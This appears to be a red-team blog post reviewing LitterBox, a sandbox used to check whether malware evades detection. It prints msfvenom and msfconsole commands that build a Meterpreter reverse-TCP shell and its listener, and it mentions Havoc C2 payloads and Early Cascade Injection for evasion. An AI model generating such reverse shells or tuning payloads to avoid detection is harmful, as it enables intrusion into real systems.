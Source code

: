```yaml
---
layout: post
title: LitterBox: The Sandbox for Malware Developers
date: 2025-02-19 00:32:00 +0100
categories:
  - Red Team
  - Malware
author: kuom
---
```

It is importat to test malware before deploying it to make sure it is FUD (Fully Undetectable) and it doesn't have any IoC (Indicator of Compromise). <br>
Lately I tried a nice [sandbox](https://github.com/BlackSnufkin/LitterBox). It offers both analysis and dynamic analysis, plus scanning a running process and doing memory analysis at runtime.
### Installation
Reccomended on Windows; fairly simple: git clone and execute python litterbox.py.
### Samples
We will try different samples, from a basic meterpreter reverse shell to more advanced payloads.
The focus today is to test how this sandbox react and with different level C2 and different levels of evasiveness.
#### Meterpreter
```
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 LHOST=<host> LPORT=<ip>
msfconsole
use exploit/multi/handler
set LPORT <port>
set LHOST <ip>
```
![[/assets/Screenshot-2025-01-21 161217.png]]
![[/assets/Screenshot-2025-01-21 161301.png]]
#### Havoc
Set up an https listener and generate a payload with the following options, this time we wll use the Active process sandbox capabilities
![[/assets/Screenshot-2025-01-21 151238.png]]
##### Active Process Inspection
![[/assets/Screenshot 2025-01-21 162202.png]]

![[/assets/Screenshot-2025-01-21 162224.png]]

![[/assets/Screenshot-2025-01-21 162318.png]]
#### Commercial C2
![[Pasted-image-20250122185634.png]]
#### Early Cascade Injection + Meterpreter shellcode
For the last one, I will load the shellcode using the Early Cascade Injection technique. It seems fairly effective regarding evasiveness.
Read more [here](https://www.outflank.nl/blog/2024/10/15/introducing-early-cascade-injection-from-windows-process-creation-to-stealthy-injection/).
![[/assets/Pasted-image-20250122184535.png]]
